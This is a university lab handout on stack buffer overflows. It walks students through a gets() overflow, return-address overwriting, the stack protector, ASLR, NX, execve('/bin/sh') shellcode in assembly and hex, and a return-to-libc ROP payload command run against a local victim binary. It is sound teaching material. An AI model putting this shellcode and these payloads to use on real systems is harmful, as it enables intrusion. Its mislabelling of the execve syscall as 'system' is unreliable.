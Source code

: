 #+STARTUP: showall
#+STARTUP: lognotestate
#+TAGS:
#+SEQ_TODO: TODO STARTED DONE DEFERRED CANCELLED | WAITING DELEGATED APPT
#+DRAWERS: HIDDEN STATE
#+TITLE: Lab 8: Stack overflow
#+CATEGORY: todo

* Introduction

This week we are going to learn how programs exploit bad programming. In particular, how well-crafted input can force a program to execute something completely
different than what it was originally intended to do.

* Stack overflow

As you are probably well aware, C gives you total programming power. But with great power, comes great responsibility. One of the biggest problems with C is that
many programmers do not check that the data structures that they allocate in the stack are not overflown.

Compile and test the following simple program. Call it =smashing.c=

#+BEGIN_SRC C
#include <stdio.h>
#include <string.h>

void main()
{
  char buffer[10];
  puts("Type a very long string:");
  gets(buffer);
  if (strlen(buffer) < 50) {
    puts("I said long!!!!. Try again\n");
  } else {
    printf("Input: [%s]\n", buffer);
  }
}
#+END_SRC

Compile it (=gcc -o smashing smashing.c=)

*Q1. What is the warning you receive when you compile it?*

*Q2. What happens when you give it a long input?*


** GCC Stack-Smashing Protector (SSP)

gcc can help us defend against these types of buffer overflows. Newer versions of gcc have this protection enabled by default. Not in our lab machines. Instead
we need to enable it at compile time:

#+BEGIN_EXAMPLE
gcc -fstack-protector -o smashing smashing.c
#+END_EXAMPLE

Run it again.

*Q3 What is the difference now?*

* Subjugating a program: returning where we want

You already knew that it is easy to clobber the stack (I am sure you have done it plenty of times).  Can we do anything interesting by overwriting the stack?
Let us try. Call this program =subjugating.c=. Compile it and run it.

#+BEGIN_SRC C
#include <stdio.h>
#include <stdlib.h>
int i;

void do_not_execute(void)
{
  printf("\nDo not execute!!!!!!!!!!!!!\n");
  exit(1);
}

void function(void) {
  long int *stackTop = 0;
  stackTop = (long int*)&stackTop;
  for (i=0;i<16;i++) {
    printf("stack offset %d from stackTop: %x value %x\n",i, stackTop + i, *(stackTop+i));
  }
  *(stackTop + 4) = (long int)do_not_execute;
  printf("return to %x\n\n", *(stackTop+8));
}

void main() {
  int x;

  x = 0;
  printf("address of do_not_execute %x\n", do_not_execute);
  printf("address of function %x\n", function);
  printf("address of main %x\n", main);
  function();
  x = 1;
  printf("value of %d\n",x);
  printf("hello world\n");
}
#+END_SRC


*Q4. Why does it execute the function do_not_execute?* Hint, you should know what a stack frame is (remember your assembly programming?). If not head here: http://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64/

** Try Stack-Smashing Protector in this program

Enable SSP for this program.

*Q5. Why doesn't SSP work in this program?*

** Address Space Layout Randomization (ASLR)

Run the program several times. As you can see, the addresses of the stack change every time. This is a security counter-measure. This way it is more difficult to know
the addresses that we need to override (that is why I had to print the addresses of the stack to identify where to the return address was). Let us disable by running it as follows:

#+BEGIN_SRC bash
setarch `arch` -R ./subjugating
#+END_SRC

As you can see, now the stack is always exactly in the same place. This is our second counter-measure to stack overflows.

* Smashing to Subjugate

We have learned that we can make a program crash or execute code that is not intended to do. But, can we mix both at the same time? Of course we can.  But this
time we need to be crafty. And fortuantely Ben Lynn (a PhD graduate from Standford whose area of research is crypto) has created a great tutorial that we can
reuse.  Now head to https://crypto.stanford.edu/~blynn/rop/ and do the first part of the exercise (all the way to /The Importance of Being Patched/). I'll
simply add to his tutorial in areas that you will probably have trouble understanding.

But be careful about the following three things:

a) Change your prompt. This will make it easy to know if you are inside the shell executed by the program or not. In the terminal type
#+BEGIN_SRC BASH
PS1='TEST> '
#+END_SRC
b) when you execute the binary of shell.c type exit to exit it.

c) There is a typo in the command that generates the file =shellcode=.
#+BEGIN_SRC bash
xxd -s0x4bf -l32 -p a.out shellcode
#+END_SRC
it should be (notice the redirection). Make sure you use the right address
#+BEGIN_SRC bash
xxd -s0x4bf -l32 -p a.out > shellcode
#+END_SRC
** system  call

In Linux =system= is a system call of the kernel. It is very simple. It is called using =syscall= with a value of 0x3b in the =rax= register, a pointer to
the command to execute in the =rdi= register; =rsi= points to the list of arguments, and =rdx= to the environment variables. In this case the latter two are
NULL.

** The assembly

This is a very well crafted piece of code. The challenge of the attack is to get the address of the command "/bin/sh" in the =rdi= register. But we have no clue
where this code is going to end, so the easiest is to get the address of the string into the stack and then pop it into the register. How do we do it? if we
call a function the stack automatically loads  the address immediately after the function. Let me do a play-by-play:

1. We jump to =there=
2. We call =here= (go back  to the top of the assembly); this pushes the address of =/bin/sh= into the stack.
3. Now we pop the address of "/bin/sh" into =rdi=, clear =rax= and =rsi=, and do the syscall.
4. We do the syscall, which executes the command =/bin/sh= (the shell)

#+BEGIN_SRC C
int main() {
  asm("\
needle0: jmp there\n\
here:    pop %rdi\n\
         xor %rax, %rax\n\
         movb $0x3b, %al\n\
         xor %rsi, %rsi\n\
         xor %rdx, %rdx\n\
         syscall\n\
there:   call here\n\
.string \"/bin/sh\"\n\
needle1: .octa 0xdeadbeef\n\
  ");
}
#+END_SRC

** Extracting the binary

The command extracts the given bytes from your binary. Make sure you use the correct offset (in my case it was 0x495). It outputs the values in hexadecimal so
we can easily read it.

#+BEGIN_SRC BASH
xxd -s0x495 -l32 -p a.out > shellcode
#+END_SRC

Make sure your =shellcode= matches:

#+BEGIN_SRC BASH
cat shellcode
eb0e5f4831c0b03b4831f64831d20f05e8edffffff2f62696e2f736800ef
bead
#+END_SRC


* Executable space protection (NX)

As you learned in the tutorial above, code in the stack cannot be executed. This is a great countermeasure against stack overflows. Go back to the tutorial and do the section /Executable space perversion/

*Q6. What is the behaviour of the program when you enable NX?*

* If you have time...

Do the section /The Importance of Being Patched/. It will show you that it is possible to know the address of the stack we need to attack by using =ps=

* If your have more time... or want to keep playing...

The rest of the tutorial is fascinating, to say the least.

But we need to fix the tutorial so it works on our version of linux:

1. First, in order to get his attack to work in our lab computers you need to change the source
   code of =victim.c=. You need to change the size of the buffer from 64 to 128 bytes.
2. The location of the library is =/lib64/libc.so.6=
3. The addresses of =<system>= and =<exit>= that are extracted  using =nm= are absolute (it means we don't need to add the base)
  #+BEGIN_SRC bash
nm -D /lib64/libc.so.6 | grep '\<exit\>'   | cut -f1 -d' '
nm -D /lib64/libc.so.6 | grep '\<system\>' | cut -f1 -d' '
  #+END_SRC
4. You need to change the payload string to the =%0130d= to =%0256d= to compensate for the bytes we have added.
My values are:
   | base             | 0x000000392ba00000 |
   | gadget           |            0x20338 |
   | system           | 0x000000392ba3e900 |
   | exit             | 0x000000392ba35a50 |
   | address of array |     0x7fffffffddd0 |
5. There is an error in his execution of the attack. He does not include any input to the shell command. Try the command below instead (remember to calculate your own
   values for base, gadget, system, and address of array).

#+BEGIN_SRC bash
( (
echo -n /bin/sh | xxd -p
printf %0258d 0;
printf %016x $((0x000000392ba00000+0x20338)) | tac -rs..
printf %016x 0x7fffffffddd0 | tac -rs..
printf %016x 0x000000392ba3e900 | tac -rs..
echo
) |  xxd -r -p; echo ; echo ls -lia ) | setarch `arch` -R ./victim
#+END_SRC

In a nutshell, this is the attack:

The goal is to replace the stack with the following data:

|----------------------------+--------------------------------------------------|
| address of function system |                                                  |
| address of /bin/sh         |                                                  |
| address of gadget          | <- this was the return address of the original call |
|----------------------------+--------------------------------------------------|

Let me explain the /gadget/. This is the code that is needed to put the address of =/bin/sh= into =rdi= (execute =pop rdi= then =retq=). These two instructions
are simply two bytes: 0x5f followed by 0xc3. Ben (the author of the page) shows us that all we need is to find those two bytes /somewhere/ (anywhere) in the
executable section of the library of libc.  gcc will not complain if we jump to a section of the valid code.

So here is the play by play:

1. Insert the payload into the stack, replace the return address of the function with the address of the gadget
2. Execute the gadget. The gadget pops the top of the stack (containing the address of /bin/sh into the register =rdi=
3. Executes the return =retq=. The return  address is the address of the =system= function. Control is transferred to it.
4. =system= behaves as expected. Executes =/bin/sh= (the shell)
5. At the end of =system= control is transferred to its return address (at the top of the stack,
6. The return value is invalid, so the program crashes with a segmentation fault. It is easy to fix it. Just add to the attack the address of =exit= and append
   that to the string that goes into the stack. I'll leave that as an exercise to the reader.

Happy coding

--dmg
